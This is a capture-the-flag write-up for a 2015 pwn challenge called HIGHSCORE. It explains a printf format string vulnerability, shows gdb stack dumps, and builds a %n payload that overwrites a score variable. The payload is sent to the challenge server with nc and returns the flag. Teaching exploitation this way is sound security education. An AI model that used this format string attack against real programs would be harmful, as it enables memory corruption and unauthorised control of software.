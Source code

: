 ## HIGHSCORE [120]

## Solution
The variable `highscore` is in a read-only section, but the variable `userscore` is in the `.data` section and is therefore writable. The binary `read()`s in 79 bytes to a buffer and then calls `printf()` with that buffer as the format string (but with no other arguments). This will allow us to use a format string attack to overwrite `userscore` at address `0x0804a03c`.

Right before the call to `printf()`, the stack will look like this:
```
ameise@STAHLKERN:~/CS2015/pwn/120_HIGHSCORE$ gdb ./highscore 
Reading symbols from ./highscore...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   [...]
   0x08048565 <+106>:	call   0x80483a0 <printf@plt>
   [...]
(gdb) break *0x08048565
Breakpoint 1 at 0x8048565
(gdb) run
Starting program: /home/ameise/CS2015/pwn/120_HIGHSCORE/highscore 
Can you beat my high score of 10000?
aaaabbbbccccdddd

Breakpoint 1, 0x08048565 in main ()
(gdb) x/32xw $esp
0xffffce60:	0xffffce78	0xffffce78	0x0000004f	0x00000000
0xffffce70:	0xf7ffd000	0xf7ffd918	0x61616161	0x62626262
0xffffce80:	0x63636363	0x64646464	0xf7fb000a	0x00007fd7
0xffffce90:	0xffffffff	0x0000002f	0xf7e0ddc8	0xf7fd5858
0xffffcea0:	0x00008000	0xf7fb3000	0xf7fb1244	0xf7e190ec
0xffffceb0:	0x00000001	0x00000007	0xf7e2fa30	0x0804865b
0xffffcec0:	0x00000001	0xffffcf84	0xffffcf8c	0x00000011
0xffffced0:	0xf7fb33dc	0xffffcef0	0x00000000	0xf7e19637
(gdb) x/s 0xffffce78
0xffffce78:	"aaaabbbbccccdddd\n"
```

We will use the `$` format specifier with our `printf()` format string to specify a specific stack variable that will contain the address of `userscore`. The variables above would be referenced in the following way by a format string:
```
0xffffce78 ... $0
0xffffce78 ... $1
0x0000004f ... $2
[...]
0x61616161 ... $6
0x62626262 ... $7
0x63636363 ... $8
[...]
```

The `%n` format specifier tells `printf()` to store the total number of bytes written so far into a variable addressed on the stack. For example, the following would tell `printf()` to store the number of bytes written so far into the integer location addressed by stack variable number 2:
```C
printf("%$2n");
```

We are able to control what is written to memory starting at `0xffffce78` with the call to `read()`. This location also has to store our format string itself, however, and we must ensure that the address of `userscore` is stored on a 4-byte boundary. We can use zero-padding in a format specifier to ensure that a lot of bytes are written (`userscore` must be over 10,000). Let's put the address `0x0804a03c` at stack variable 10 for now to give us enough space for the rest of the format specifier:
```
"%010010x%10$naaa\x3c\xa0\x04\x08"
```

In memory, just before the call to `printf()`, this will look like:
```
$0     (addr of format string "%x%x ...")
$1     (out of our control)
$2     (out of our control)
$3     (out of our control)
$4     (out of our control)
$5     (out of our control)
$6     '%' '0' '1' '0'
$7     '0' '1' '0' 'x'
$8     '%' '1' '0' '$'
$9     'n' 'a' 'a' 'a'
$10    \x3c\xa0\x04\x08
```

This will cause a value larger than 10,000 to be stored in `userscore` and the binary will give us the key:
```
ameise@STAHLKERN:~/CS2015/pwn/120_HIGHSCORE$ python -c 'print "%010010x%10$naaa\x3c\xa0\x04\x08"' | nc shell.cyberstakesonline.com 2230
Can you beat my high score of 10000?
0000000000000000000000000000000000000000000000000000
[...]
00000000000000000000000000000000000000ffffdb88aaa<�
Success!  Your key is 6bae2d8146a34b63392c53f20f3fca44
```